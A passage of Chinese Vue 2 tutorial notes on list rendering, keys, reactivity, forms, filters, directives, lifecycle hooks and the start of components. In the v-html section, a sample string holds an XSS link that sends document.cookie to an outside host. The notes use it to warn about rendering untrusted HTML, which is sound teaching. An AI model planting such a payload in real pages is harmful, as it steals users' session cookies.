   - 写法：==v-show="表达式"==
   - 适用于：切换频率较高的场景。
   - 特点：不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉
3. 备注：==使用 `v-if` 的时，元素可能无法获取到，而使用 `v-show` 一定可以获取到==。

## 1.12 列表渲染

### 1.12.1 基本列表

```html
<!-- 准备好一个容器-->
<div id="root">
	<!-- 遍历数组 -->
	<h2>人员列表（遍历数组）</h2>
	<ul>
		<li v-for="(p,index) of persons" :key="index">{{p.name}}-{{p.age}}</li>
	</ul>

	<!-- 遍历对象 -->
	<h2>汽车信息（遍历对象）</h2>
	<ul>
		<li v-for="(value,k) of car" :key="k">{{k}}-{{value}}</li>
	</ul>

	<!-- 遍历字符串 -->
	<h2>测试遍历字符串（用得少）</h2>
	<ul>
		<li v-for="(char,index) of str" :key="index">{{char}}-{{index}}</li>
	</ul>

	<!-- 遍历指定次数 -->
	<h2>测试遍历指定次数（用得少）</h2>
	<ul>
		<li v-for="(number,index) of 5" :key="index">{{index}}-{{number}}</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	new Vue({
		el: "#root",
		data: {
			persons: [
				{
					id: "001",
					name: "张三",
					age: 18,
				},
				{
					id: "002",
					name: "李四",
					age: 19,
				},
				{
					id: "003",
					name: "王五",
					age: 20,
				},
			],
			car: {
				name: "奥迪A8",
				price: "70万",
				color: "黑色",
			},
			str: "hello",
		},
	});
</script>
```

`v-for` 指令:

1. 用于展示列表数据
2. 语法：`v-for="(item, index) in xxx" :key="yyy"`
3. 可遍历：==数组==、==对象==、字符串（用的很少）、指定次数（用的很少）

### 1.12.2 key 的原理

```html
<!-- 准备好一个容器-->
<div id="root">
	<!-- 遍历数组 -->
	<h2>人员列表（遍历数组）</h2>
	<button @click.once="add">添加一个老刘</button>
	<ul>
		<li v-for="(p,index) of persons" :key="index">
			{{p.name}}-{{p.age}}
			<input type="text" />
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	new Vue({
		el: "#root",
		data: {
			persons: [
				{
					id: "001",
					name: "张三",
					age: 18,
				},
				{
					id: "002",
					name: "李四",
					age: 19,
				},
				{
					id: "003",
					name: "王五",
					age: 20,
				},
			],
		},
		methods: {
			add() {
				const p = {
					id: "004",
					name: "老刘",
					age: 40,
				};
				this.persons.unshift(p);
			},
		},
	});
</script>
```

面试题：react、vue 中的 key 有什么作用？（key 的内部原理）

1. 虚拟 DOM 中 key 的作用：
   - key 是虚拟 DOM 对象的标识，当数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】,
   - 随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下：
2. 对比规则：
   1. 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：
      1. 若虚拟 DOM 中内容没变, 直接使用之前的真实 DOM！
      2. 若虚拟 DOM 中内容变了, 则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM。
   2. 旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key：创建新的真实 DOM，随后渲染到到页面。
3. 用 index 作为 key 可能会引发的问题：
   1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作: 会产生没有必要的真实 DOM 更新 ==> 界面效果没问题, 但效率低。
   2. 如果结构中还包含输入类的 DOM：会产生错误 DOM 更新 ==> 界面有问题。
4. 开发中如何选择 key ?:
   1. ==最好使用每条数据的唯一标识作为 key==, 比如 id、手机号、身份证号、学号等唯一值。
   2. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。

### 1.12.3 列表过滤

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>人员列表</h2>
	<input type="text" placeholder="请输入名字" v-model="keyWord" />
	<ul>
		<li v-for="(p,index) of filPerons" :key="index">
			{{p.name}}-{{p.age}}-{{p.sex}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	// 用 watch 实现
	// #region
	/* new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons: [
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ],
            filPerons: []
        },
        watch:{
            keyWord:{
                immediate: true,
                handler(val){
                    this.filPerons = this.persons.filter((p)=>{
                        return p.name.indexOf(val) !== -1
                    })
                }
            }
        }
    }) */
	// #endregion

	// 用 computed 实现
	new Vue({
		el: "#root",
		data: {
			keyWord: "",
			persons: [
				{
					id: "001",
					name: "马冬梅",
					age: 19,
					sex: "女",
				},
				{
					id: "002",
					name: "周冬雨",
					age: 20,
					sex: "女",
				},
				{
					id: "003",
					name: "周杰伦",
					age: 21,
					sex: "男",
				},
				{
					id: "004",
					name: "温兆伦",
					age: 22,
					sex: "男",
				},
			],
		},
		computed: {
			filPerons() {
				return this.persons.filter((p) => {
					return p.name.indexOf(this.keyWord) !== -1;
				});
			},
		},
	});
</script>
```

### 1.12.4 列表排序

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>人员列表</h2>
	<input type="text" placeholder="请输入名字" v-model="keyWord" />
	<button @click="sortType = 2">年龄升序</button>
	<button @click="sortType = 1">年龄降序</button>
	<button @click="sortType = 0">原顺序</button>
	<ul>
		<li v-for="(p,index) of filPerons" :key="p.id">
			{{p.name}}-{{p.age}}-{{p.sex}}
			<input type="text" />
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	new Vue({
		el: "#root",
		data: {
			keyWord: "",
			sortType: 0, // 0 原顺序 1降序 2升序
			persons: [
				{
					id: "001",
					name: "马冬梅",
					age: 30,
					sex: "女",
				},
				{
					id: "002",
					name: "周冬雨",
					age: 31,
					sex: "女",
				},
				{
					id: "003",
					name: "周杰伦",
					age: 18,
					sex: "男",
				},
				{
					id: "004",
					name: "温兆伦",
					age: 19,
					sex: "男",
				},
			],
		},
		computed: {
			filPerons() {
				const arr = this.persons.filter((p) => {
					return p.name.indexOf(this.keyWord) !== -1;
				});
				// 判断一下是否需要排序
				if (this.sortType) {
					arr.sort((p1, p2) => {
						return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
					});
				}
				return arr;
			},
		},
	});
</script>
```

### 1.12.5 更新时的一个问题

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>人员列表</h2>
	<button @click="updateMei">更新马冬梅的信息</button>
	<ul>
		<li v-for="(p,index) of persons" :key="p.id">
			{{p.name}}-{{p.age}}-{{p.sex}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	const vm = new Vue({
		el: "#root",
		data: {
			persons: [
				{
					id: "001",
					name: "马冬梅",
					age: 30,
					sex: "女",
				},
				{
					id: "002",
					name: "周冬雨",
					age: 31,
					sex: "女",
				},
				{
					id: "003",
					name: "周杰伦",
					age: 18,
					sex: "男",
				},
				{
					id: "004",
					name: "温兆伦",
					age: 19,
					sex: "男",
				},
			],
		},
		methods: {
			updateMei() {
				// this.persons[0].name = '马老师' // 奏效
				// this.persons[0].age = 50 // 奏效
				// this.persons[0].sex = '男' // 奏效
				// this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} // 不奏效
				this.persons.splice(0, 1, {
					id: "001",
					name: "马老师",
					age: 50,
					sex: "男",
				});
			},
		},
	});
</script>
```

### 1.12.6 Vue 监测数据改变的原理\_对象

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>学校名称：{{name}}</h2>
	<h2>学校地址：{{address}}</h2>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			address: "北京",
			student: {
				name: "tom",
				age: {
					rAge: 40,
					sAge: 29,
				},
				friends: [
					{
						name: "jerry",
						age: 35,
					},
				],
			},
		},
	});
</script>
```

### 1.12.7 模拟一个数据监测

```html
<script type="text/javascript">
	let data = {
		name: "尚硅谷",
		address: "北京",
	};

	// 创建一个监视的实例对象，用于监视 data 中属性的变化
	const obs = new Observer(data);
	console.log(obs);

	// 准备一个 vm 实例对象
	let vm = {};
	vm._data = data = obs;

	function Observer(obj) {
		// 汇总对象中所有的属性形成一个数组
		const keys = Object.keys(obj);
		// 遍历
		keys.forEach((k) => {
			Object.defineProperty(this, k, {
				get() {
					return obj[k];
				},
				set(val) {
					console.log(
						`${k}被改了，我要去解析模板，生成虚拟 DOM.....我要开始忙了 `
					);
					obj[k] = val;
				},
			});
		});
	}
</script>
```

### 1.12.8 Vue.set 的使用

```html
<!-- 准备好一个容器-->
<div id="root">
	<h1>学校信息</h1>
	<h2>学校名称：{{school.name}}</h2>
	<h2>学校地址：{{school.address}}</h2>
	<h2>校长是：{{school.leader}}</h2>
	<hr />
	<h1>学生信息</h1>
	<button @click="addSex">添加一个性别属性，默认值是男</button>
	<h2>姓名：{{student.name}}</h2>
	<h2 v-if="student.sex">性别：{{student.sex}}</h2>
	<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
	<h2>朋友们</h2>
	<ul>
		<li v-for="(f,index) in student.friends" :key="index">
			{{f.name}}--{{f.age}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			school: {
				name: "尚硅谷",
				address: "北京",
			},
			student: {
				name: "tom",
				age: {
					rAge: 40,
					sAge: 29,
				},
				friends: [
					{
						name: "jerry",
						age: 35,
					},
					{
						name: "tony",
						age: 36,
					},
				],
			},
		},
		methods: {
			addSex() {
				// Vue.set(this.student,'sex','男')
				this.$set(this.student, "sex", "男");
			},
		},
	});
</script>
```

### 1.12.9 Vue 监测数据改变的原理\_数组

```html
<!-- 准备好一个容器-->
<div id="root">
	<h1>学校信息</h1>
	<h2>学校名称：{{school.name}}</h2>
	<h2>学校地址：{{school.address}}</h2>
	<h2>校长是：{{school.leader}}</h2>
	<hr />
	<h1>学生信息</h1>
	<button @click="addSex">添加一个性别属性，默认值是男</button>
	<h2>姓名：{{student.name}}</h2>
	<h2 v-if="student.sex">性别：{{student.sex}}</h2>
	<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
	<h2>爱好</h2>
	<ul>
		<li v-for="(h,index) in student.hobby" :key="index">{{h}}</li>
	</ul>
	<h2>朋友们</h2>
	<ul>
		<li v-for="(f,index) in student.friends" :key="index">
			{{f.name}}--{{f.age}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			school: {
				name: "尚硅谷",
				address: "北京",
			},
			student: {
				name: "tom",
				age: {
					rAge: 40,
					sAge: 29,
				},
				hobby: ["抽烟", "喝酒", "烫头"],
				friends: [
					{
						name: "jerry",
						age: 35,
					},
					{
						name: "tony",
						age: 36,
					},
				],
			},
		},
		methods: {
			addSex() {
				// Vue.set(this.student,'sex','男')
				this.$set(this.student, "sex", "男");
			},
		},
	});
</script>
```

### 1.12.10 总结 Vue 数据监测

```html
<!-- 准备好一个容器-->
<div id="root">
	<h1>学生信息</h1>
	<button @click="student.age++">年龄+1 岁</button> <br />
	<button @click="addSex">添加性别属性，默认值：男</button> <br />
	<button @click="student.sex = '未知' ">修改性别</button> <br />
	<button @click="addFriend">在列表首位添加一个朋友</button> <br />
	<button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button>
	<br />
	<button @click="addHobby">添加一个爱好</button> <br />
	<button @click="updateHobby">修改第一个爱好为：开车</button> <br />
	<button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br />
	<h3>姓名：{{student.name}}</h3>
	<h3>年龄：{{student.age}}</h3>
	<h3 v-if="student.sex">性别：{{student.sex}}</h3>
	<h3>爱好：</h3>
	<ul>
		<li v-for="(h,index) in student.hobby" : key="index">{{h}}</li>
	</ul>
	<h3>朋友们：</h3>
	<ul>
		<li v-for="(f,index) in student.friends" : key="index">
			{{f.name}}--{{f.age}}
		</li>
	</ul>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			student: {
				name: "tom",
				age: 18,
				hobby: ["抽烟", "喝酒", "烫头"],
				friends: [
					{
						name: "jerry",
						age: 35,
					},
					{
						name: "tony",
						age: 36,
					},
				],
			},
		},
		methods: {
			addSex() {
				// Vue.set(this.student,'sex','男')
				this.$set(this.student, "sex", "男");
			},
			addFriend() {
				this.student.friends.unshift({
					name: "jack",
					age: 70,
				});
			},
			updateFirstFriendName() {
				this.student.friends[0].name = "张三";
			},
			addHobby() {
				this.student.hobby.push("学习");
			},
			updateHobby() {
				// this.student.hobby.splice(0,1,'开车')
				// Vue.set(this.student.hobby,0,'开车')
				this.$set(this.student.hobby, 0, "开车");
			},
			removeSmoke() {
				this.student.hobby = this.student.hobby.filter((h) => {
					return h !== "抽烟";
				});
			},
		},
	});
</script>
```

**Vue 监视数据的原理**：

1. vue 会监视 data 中所有层次的数据。
2. 如何监测对象中的数据？

   - 通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据。

     1. 对象中后追加的属性，Vue 默认不做响应式处理
     2. 如需给后添加的属性做响应式，请使用如下 API：

        - `Vue.set(target，propertyName/index，value)`
        - `vm.$set(target，propertyName/index，value)`

3. 如何监测数组中的数据？

   - 通过包裹数组更新元素的方法实现，本质就是做了两件事：

     1. 调用原生对应的方法对数组进行更新。
     2. 重新解析模板，进而更新页面。

4. 在 Vue 修改数组中的某个元素一定要用如下方法：
   1. 使用这些 API: ==push()、pop()、shift()、unshift()、splice()、sort()、reverse()==
   2. ==Vue.set()== 或 ==vm.$set()==

特别注意：==**Vue.set() 和 vm.$set() 不能给 vm 或 vm 的根数据对象（如\_data） 添加属性！！！**==

## 1.13 收集表单数据

```html
<!-- 准备好一个容器-->
<div id="root">
	<form @submit.prevent="demo">
		账号：<input type="text" v-model.trim="userInfo.account" /> <br /><br />
		密码：<input type="password" v-model="userInfo.password" /> <br /><br />
		年龄：<input type="number" v-model.number="userInfo.age" /> <br /><br />
		性别： 男<input
			type="radio"
			name="sex"
			v-model="userInfo.sex"
			value="male"
		/>
		女<input type="radio" name="sex" v-model="userInfo.sex" value="female" />
		<br /><br />
		爱好： 学习<input type="checkbox" v-model="userInfo.hobby" value="study" />
		打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" />
		吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat" />
		<br /><br />
		所属校区
		<select v-model="userInfo.city">
			<option value="">请选择校区</option>
			<option value="beijing">北京</option>
			<option value="shanghai">上海</option>
			<option value="shenzhen">深圳</option>
			<option value="wuhan">武汉</option>
		</select>
		<br /><br />
		其他信息：
		<textarea v-model.lazy="userInfo.other"></textarea> <br /><br />
		<input type="checkbox" v-model="userInfo.agree" />阅读并接受<a
			href="http://www.atguigu.com"
			>《用户协议》</a
		>
		<button>提交</button>
	</form>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	new Vue({
		el: "#root",
		data: {
			userInfo: {
				account: "",
				password: "",
				age: 18,
				sex: "female",
				hobby: [],
				city: "beijing",
				other: "",
				agree: "",
			},
		},
		methods: {
			demo() {
				console.log(JSON.stringify(this.userInfo));
			},
		},
	});
</script>
```

**收集表单数据**：

- 若：\<input type="text"/>，则 v-model 收集的是 value 值，用户输入的就是 value 值。
- 若：\<input type="radio"/>，则 v-model 收集的是 value 值，且==要给标签配置 value 值==。
- 若：\<input type="checkbox"/>
  1. 没有配置 input 的 value 属性，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
  2. 配置 input 的 value 属性:
     1. `v-model` 的初始值是非数组，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
     2. ==`v-model` 的初始值是数组，那么收集的的就是 value 组成的数组==

备注：**v-model 的三个修饰符**：

- ==**lazy**：失去焦点再收集数据==
- ==**number**：输入字符串转为有效的数字==
- ==**trim**：输入首尾空格过滤==

## 1.14 过滤器

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>显示格式化后的时间</h2>
		<!-- 计算属性实现 -->
		<h3>现在是：{{fmtTime}}</h3>
		<!-- methods实现 -->
		<h3>现在是：{{getFmtTime()}}</h3>
		<!-- 过滤器实现 -->
		<h3>现在是：{{time | timeFormater}}</h3>
		<!-- 过滤器实现（传参） -->
		<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
		<h3 :x="msg | mySlice">尚硅谷</h3>
	</div>

	<div id="root2">
		<h2>{{msg | mySlice}}</h2>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;
	// 全局过滤器
	Vue.filter("mySlice", function (value) {
		return value.slice(0, 4);
	});

	new Vue({
		el: "#root",
		data: {
			time: 1621561377603, // 时间戳
			msg: "你好，尚硅谷",
		},
		computed: {
			fmtTime() {
				return dayjs(this.time).format("YYYY年MM月DD日 HH:mm:ss");
			},
		},
		methods: {
			getFmtTime() {
				return dayjs(this.time).format("YYYY年MM月DD日 HH:mm:ss");
			},
		},
		// 局部过滤器
		filters: {
			timeFormater(value, str = "YYYY年MM月DD日 HH:mm:ss") {
				// console.log('@',value)
				return dayjs(value).format(str);
			},
		},
	});

	new Vue({
		el: "#root2",
		data: {
			msg: "hello,atguigu!",
		},
	});
</script>
```

**过滤器**：

- **定义**：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
- **语法**：
  1. 注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
  2. 使用过滤器：`{{ xxx | 过滤器名}}` 或 `v-bind:属性 = "xxx | 过滤器名"`
- **备注**：
  1. 过滤器也可以接收额外参数、多个过滤器也可以串联
  2. 并没有改变原本的数据, 是产生新的对应的数据

## 1.15. 内置指令

### 1.15.1 v-text\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<div>你好，{{name}}</div>
		<div v-text="name"></div>
		<div v-text="str"></div>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			str: "<h3>你好啊！</h3>",
		},
	});
</script>
```

我们学过的指令：

- `v-bind` : 单向绑定解析表达式, 可简写为 ==:xxx==
- `v-model` : 双向数据绑定
- `v-for` : 遍历数组/对象/字符串
- `v-on` : 绑定事件监听, 可简写为 ==@==
- `v-if` : 条件渲染（动态控制节点是否存存在）
- `v-else` : 条件渲染（动态控制节点是否存存在）
- `v-show` : 条件渲染 (动态控制节点是否展示)

**v-text 指令：**

1. 作用：向其所在的节点中渲染文本内容。
2. 与插值语法的区别：==`v-text` 会替换掉节点中的内容，`{{xx}}` 则不会==。

### 1.15.2 v-html\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<div>你好，{{name}}</div>
		<div v-html="str"></div>
		<div v-html="str2"></div>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			str: "<h3>你好啊！</h3>",
			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
		},
	});
</script>
```

`v-html` 指令：

1. 作用：向指定节点中渲染包含 html 结构的内容。
2. 与插值语法的区别：
   1. `v-html` 会替换掉节点中所有的内容，`{{xx}}` 则不会。
   2. `v-html` 可以识别 html 结构。
3. 严重注意：==`v-html` 有安全性问题！！！！==
   1. ==在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。==
   2. ==一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上！==

### 1.15.3 v-cloak\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2 v-cloak>{{name}}</h2>
	</div>
	<script
		type="text/javascript"
		src="http://localhost:8080/resource/5s/vue.js"
	></script>
</body>

<script type="text/javascript">
	console.log(1);
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
		},
	});
</script>
```

`v-cloak` 指令（没有值）：

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 `v-cloak` 属性。
2. 使用 css 配合 `v-cloak` 可以解决网速慢时页面展示出 `{{xxx}}` 的问题。

### 1.15.4 v-once\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2 v-once>初始化的n值是:{{n}}</h2>
		<h2>当前的n值是:{{n}}</h2>
		<button @click="n++">点我n+1</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			n: 1,
		},
	});
</script>
```

`v-once` 指令：

1. `v-once` 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 `v-once` 所在结构的更新，可以用于优化性能。

### 1.15.5 v-pre\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2 v-pre>Vue其实很简单</h2>
		<h2>当前的n值是:{{n}}</h2>
		<button @click="n++">点我n+1</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			n: 1,
		},
	});
</script>
```

`v-pre` 指令：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

## 1.16 自定义指令

### 1.16.1 自定义指令

- 需求 1：定义一个 `v-big` 指令，和 `v-text` 功能类似，但会把绑定的数值放大 10 倍。
- 需求 2：定义一个 `v-fbind` 指令，和 `v-bind` 功能类似，但可以让其所绑定的 input 元素默认获取焦点。

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>{{name}}</h2>
		<h2>当前的n值是：<span v-text="n"></span></h2>
		<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
		<h2>放大10倍后的n值是：<span v-big="n"></span></h2>
		<button @click="n++">点我n+1</button>
		<hr />
		<input type="text" v-fbind:value="n" />
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;

	// 定义全局指令
	/* Vue.directive('fbind',{
  // 指令与元素成功绑定时（一上来）
  bind(element,binding){
   element.value = binding.value
  },
  // 指令所在元素被插入页面时
  inserted(element,binding){
   element.focus()
  },
  // 指令所在的模板被重新解析时
  update(element,binding){
   element.value = binding.value
  }
 }) */

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			n: 1,
		},
		directives: {
			// big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
			/* 'big-number'(element,binding){
    // console.log('big')
    element.innerText = binding.value * 10
   }, */
			big(element, binding) {
				console.log("big", this); // 注意此处的this是window
				// console.log('big')
				element.innerText = binding.value * 10;
			},
			fbind: {
				// 指令与元素成功绑定时（一上来）
				bind(element, binding) {
					element.value = binding.value;
				},
				// 指令所在元素被插入页面时
				inserted(element, binding) {
					element.focus();
				},
				// 指令所在的模板被重新解析时
				update(element, binding) {
					element.value = binding.value;
				},
			},
		},
	});
</script>
```

**自定义指令总结：**
一、定义语法：

1. 局部指令：

```js
new Vue({
	directives: {
		指令名: 配置对象,
	},
});
```

或

```js
new Vue({
  directives {
    指令名: 回调函数
  }
})
```

2. 全局指令：

```js
Vue.directive(指令名, 配置对象);
```

或

```js
Vue.directive(指令名, 回调函数);
```

二、配置对象中常用的 3 个回调：

1. ==**bind**：指令与元素成功绑定时调用。==
2. ==**inserted**：指令所在元素被插入页面时调用。==
3. ==**update**：指令所在模板结构被重新解析时调用。==

三、备注：

1. 指令定义时不加 `v-`，但使用时要加 `v-`；
2. 指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名，即用短横线进行连接。

### 1.16.2 回顾一个 DOM 操作

```html
<body>
	<button id="btn">点我创建一个输入框</button>

	<script type="text/javascript">
		const btn = document.getElementById("btn");
		btn.onclick = () => {
			const input = document.createElement("input");

			input.className = "demo";
			input.value = 99;
			input.onclick = () => {
				alert(1);
			};

			document.body.appendChild(input);

			input.focus();
			// input.parentElement.style.backgroundColor = 'skyblue'
			console.log(input.parentElement);
		};
	</script>
</body>
```

## 1.17 生命周期

### 1.17.1 引出生命周期

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2 v-if="a">你好啊</h2>
		<h2 :style="{opacity}">欢迎学习Vue</h2>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			a: false,
			opacity: 1,
		},
		methods: {},
		// Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
		mounted() {
			console.log("mounted", this);
			setInterval(() => {
				this.opacity -= 0.01;
				if (this.opacity <= 0) this.opacity = 1;
			}, 16);
		},
	});

	// 通过外部的定时器实现（不推荐）
	/* setInterval(() => {
  vm.opacity -= 0.01
  if(vm.opacity <= 0) vm.opacity = 1
 },16) */
</script>
```

**生命周期：**

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. ==生命周期函数中的 this 指向是 vm 或 组件实例对象==。

### 1.17.2 分析生命周期


```html
<body>
	<!-- 准备好一个容器-->
	<div id="root" :x="n">
		<h2 v-text="n"></h2>
		<h2>当前的n值是：{{n}}</h2>
		<button @click="add">点我n+1</button>
		<button @click="bye">点我销毁vm</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		// template:`
		//  <div>
		//   <h2>当前的n值是：{{n}}</h2>
		//   <button @click="add">点我n+1</button>
		//  </div>
		// `,
		data: {
			n: 1,
		},
		methods: {
			add() {
				console.log("add");
				this.n++;
			},
			bye() {
				console.log("bye");
				this.$destroy();
			},
		},
		watch: {
			n() {
				console.log("n变了");
			},
		},
		beforeCreate() {
			console.log("beforeCreate");
		},
		created() {
			console.log("created");
		},
		beforeMount() {
			console.log("beforeMount");
		},
		mounted() {
			console.log("mounted");
		},
		beforeUpdate() {
			console.log("beforeUpdate");
		},
		updated() {
			console.log("updated");
		},
		beforeDestroy() {
			console.log("beforeDestroy");
		},
		destroyed() {
			console.log("destroyed");
		},
	});
</script>
```

### 1.17.3 总结生命周期

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2 :style="{opacity}">欢迎学习Vue</h2>
		<button @click="opacity = 1">透明度设置为1</button>
		<button @click="stop">点我停止变换</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			opacity: 1,
		},
		methods: {
			stop() {
				this.$destroy();
			},
		},
		//Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
		mounted() {
			console.log("mounted", this);
			this.timer = setInterval(() => {
				console.log("setInterval");
				this.opacity -= 0.01;
				if (this.opacity <= 0) this.opacity = 1;
			}, 16);
		},
		beforeDestroy() {
			clearInterval(this.timer);
			console.log("vm即将驾鹤西游了");
		},
	});
</script>
```

常用的生命周期钩子：

1. **mounted**: 发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
2. **beforeDestroy**: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁 Vue 实例：

1. 销毁后借助 Vue 开发者工具看不到任何信息。
2. 销毁后自定义事件会失效，但原生 DOM 事件依然有效。
3. 一般不会在 `beforeDestroy` 操作数据，因为即便操作数据，也不会再触发更新流程了。

# 第二章 Vue 组件化编程

**模块**：

- 向外提供特定功能的 js 程序, 一般就是一个 js 文件
- 作用: 复用 js, 简化 js 的编写, 提高 js 运行效率

**组件**：

- 组件的定义：==实现应用中**局部**功能**代码**和**资源**的**集合**==。
- 组件的作用：复用编码，简化项目编码，提高运行效率。

**模块化**：当应用中的 js 都以模块来编写时，那这个应用就是一个模块化的应用。

**组件化**：当应用中的功能都是以多组件的方式来编写的，那这个应用就是一个组件化的应用。

## 2.1 非单文件组件

**非单文件组件**：一个文件中包含多个组件。

1. 模板编写没有提示
2. 没有构建过程, 无法将 ES6 转换成 ES5
3. 不支持组件的 CSS
4. ==真正开发中几乎不用==

### 2.1.1 基本使用

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<hello></hello>
		<hr />
		<h1>{{msg}}</h1>
		<hr />
		<!-- 第三步：编写组件标签 -->
		<school></school>
		<hr />
		<!-- 第三步：编写组件标签 -->
		<student></student>
	</div>

	<div id="root2">
		<hello></hello>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;

	// 第一步：创建school组件
	const school = Vue.extend({
		template: `
   <div class="demo">
    <h2>学校名称：{{schoolName}}</h2>
    <h2>学校地址：{{address}}</h2>
    <button @click="showName">点我提示学校名</button> 
   </div>
  `,
		// el:'#root', // 组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
		data() {
			return {
				schoolName: "尚硅谷",
				address: "北京昌平",
			};
		},
		methods: {
			showName() {
				alert(this.schoolName);
			},
		},
	});

	// 第一步：创建student组件
	const student = Vue.extend({
		template: `
   <div>
    <h2>学生姓名：{{studentName}}</h2>
    <h2>学生年龄：{{age}}</h2>
   </div>
  `,
		data() {
			return {
				studentName: "张三",
				age: 18,
			};
		},
	});

	// 第一步：创建hello组件
	const hello = Vue.extend({
		template: `
   <div> 
